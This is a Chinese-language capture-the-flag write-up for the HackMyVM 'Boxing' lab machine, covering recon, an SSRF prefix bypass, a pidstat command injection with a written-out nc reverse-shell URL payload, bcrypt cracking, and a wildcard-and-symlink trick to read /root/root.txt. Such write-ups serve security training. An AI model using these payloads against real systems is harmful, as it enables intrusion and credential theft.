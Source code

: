 ```yaml
---
sidebar_position: 1
tags: [Easy, Linux, SSRF, 命令执行, 密码破解, 通配符利用, 定时任务, 逻辑漏洞]
title: Boxing
---
```

# Boxing
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nmap -sTCV -p- --min-rate 1000 192.168.0.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 09:51 EDT
Nmap scan report for 192.168.0.106 (192.168.0.106)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:74:2f:1c:d1:23:f6:1f:dd:3a:52:94:5d:8b:7c:d9 (ECDSA)
|_  256 96:fb:74:b2:7d:ac:66:40:e9:94:df:83:9a:a6:07:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Oxer
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:7A:69:8C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.92 seconds
```
## HTTP - 80
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://192.168.0.106/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.106/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315] [--> http://192.168.0.106/images/]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 23854]
/about.html           (Status: 200) [Size: 9704]
/blog.html            (Status: 200) [Size: 11165]
/feedback.php         (Status: 200) [Size: 1616]
/css                  (Status: 301) [Size: 312] [--> http://192.168.0.106/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.0.106/js/]
/class.html           (Status: 200) [Size: 12460]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
进行目录扫描之后并没有发现什么特别之处, 查看网页的顶端我看到一个奇怪的内容 `boxing.hmv` 这可能存在域, 但是扫了一圈什么也没有
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412223234.png)
之后在访问 `facebook.php` 的时候发现有些内容返回
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412223352.png)
访问这个新的地址, 发现是一个输入 URL 的位置, 没有什么发现
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412221836.png)
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://staging-env.boxing.hmv/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,war
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://staging-env.boxing.hmv/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,zip,war,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 287]
/.php                 (Status: 403) [Size: 287]
/index.php            (Status: 200) [Size: 1167]
/cache                (Status: 301) [Size: 332] [--> http://staging-env.boxing.hmv/cache/]
/.html                (Status: 403) [Size: 287]
/.php                 (Status: 403) [Size: 287]
/server-status        (Status: 403) [Size: 287]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
发现一个新的文件夹 Cache , 访问在其中发现一些文件但是没有什么发现
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412222136.png)
查看其中的文件在 `.swp` 文件中可以发现一条消息内容, 显示没有提供重置密码的地方
```txt
Hello! You don't have a link to reset the password, and I've forgotten it! I tried Cassius! but it doesn't work; Contact me asap pease!

Cassius
```
之后我提交了一些 URL 地址, 发现内部存在过滤, 我感觉存在 SSRF 漏洞可以利用一下
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412222634.png)
在这里会进行一系列的校验, 但是要求前缀是 `boxing.hmv` 所以就需要一些 Bypass 的手段
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412224955.png)
随后我本来想的是远程包含, 但是试了一下没用, 只能进行内部端口探测了
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# ffuf -u 'http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:FUZZ' -w <(seq 1 65000) -fs 1167

80                      [Status: 200, Size: 25021, Words: 10556, Lines: 702, Duration: 993ms]
5000                    [Status: 200, Size: 2367, Words: 828, Lines: 96, Duration: 17ms]
:: Progress: [65000/65000] :: Job [1/1] :: 4651 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```
随后访问这个 5000 端口, 在页面中要求给出一个 ProcessName , 如果使用 POST 传参没有任何用处, 但是使用 GET 传参就可以看到其输出信息, 询问 GPT 后了解到这是 `pidstat` 命令的执行输出, 那么就有可能存在命令注入的问题
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412230948.png)
我寻找到了 [pidstat](https://gtfobins.github.io/gtfobins/pidstat/) 这个文章, 其中提到了一种命令执行的方式, 但是输入之后好像存在过滤, 所以还需要做一点措施
> 看了一下 WP发现是 %2B 可以过去, 懵逼的我

![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240413162128.png)

随后利用这个来获取到一个反向 Shell
```url
http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:5000?processName=asd%2B-e%2Bnc%2B192.168.0.104%2B4444%2B-e%2B/bin/bash
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240413162404.png)
## 后渗透

### www-data --> cassius
随后在 dev 目录下发现一个新的 db 文件, 下载到本地进行查看
```bash
(remote) www-data@boxing:/var/www/dev$ ls
boxing_database.db  cache  index.php
```
随后从这个文件中发现一个密码
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# sqlite3 boxing_database.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints. 
sqlite> SELECT * FROM users;
1|cassius|$2b$05$gPKe1EUBPZidX/j3qTDapeznU4CMfkpMd0sQhgehhhoG/pwc4OnVu
```
随后使用 John 进行破解, 发现破解不了, 在之前有一个文件中提及到其使用过 `Cassius!`
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# john hash.txt -w=password.txt -rules=best64
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Cassius!123      (?)   
1g 0:00:00:00 DONE (2024-04-13 04:34) 50.00g/s 1800p/s 1800c/s 1800C/s Cassius!..Cassio
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### cassius --> root
使用上面得到的密码进行登陆, 在寻找中发现在 `/opt/sos` 目录下存在一些特殊的内容
```bash
cassius@boxing:/opt/sos$ ls
incrontab.sh  logs  sos.sh
cassius@boxing:/opt/sos$ cat incrontab.sh 
#!/bin/bash

echo '/etc/apache2/sites-available/000-default.conf IN_MODIFY systemctl restart apache2' | incrontab -
echo '/etc IN_DELETE,IN_MODIFY,IN_MOVED_FROM /bin/echo "File: $@/$# => $%" > /root/user_flag.log' | incrontab -
echo '/home/cassius/user.txt IN_ATTRIB /opt/sos/sos.sh' | incrontab -
```
询问 GPT 后了解到这是在使用 `incrontab` 工具来设置文件系统监视器的规则, 其中我们唯一可以使用的就是第三条, 当 `/home/cassius/user.txt` 的文件的属性发生改变的时候就会执行 `/opt/sos/sos.sh`
```bash
cassius@boxing:/opt/sos$ cat sos.sh 
#!/bin/bash

logs="/opt/sos/logs/output-logs.txt"
rm $logs
exec &>$logs

cd /home/cassius
file *
ss -altupn
last -a
w
ps aux
top -n 1
lsof

for user in $(cut -f1 -d: /etc/passwd); do
echo "Cron jobs for $user:"
crontab -u $user -l
done

tail /var/log/syslog
sha256sum /bin/* /sbin/* /usr/bin/* /usr/sbin/*

chmod 700 $logs
```
:::note[查看这个脚本我确定了两件事情]

- `file *` : 这个估计可以通配符利用一波, 查看 [gtfobins ](https://gtfobins.github.io/gtfobins/file/)发现可以利用这个来读取文件
- 前后文件的权限发生了变化, 所以可以借助时间差去把文件拷贝出来

:::
所以我们就可以开始相关的利用
```bash
cassius@boxing:~$ touch -- -f
cassius@boxing:~$ ln -sv /root/root.txt root
cassius@boxing:~$ ls
-f  root  user.txt
```
之后开启一个新的终端执行命令来利用时间差拷贝文件
```bash
cassius@boxing:/tmp$ while :; do cp /opt/sos/logs/output-logs.txt /tmp/1.txt 2>/dev/null; done
```
随后修改 `user.txt` 文件权限就可以看到文件拷贝出来了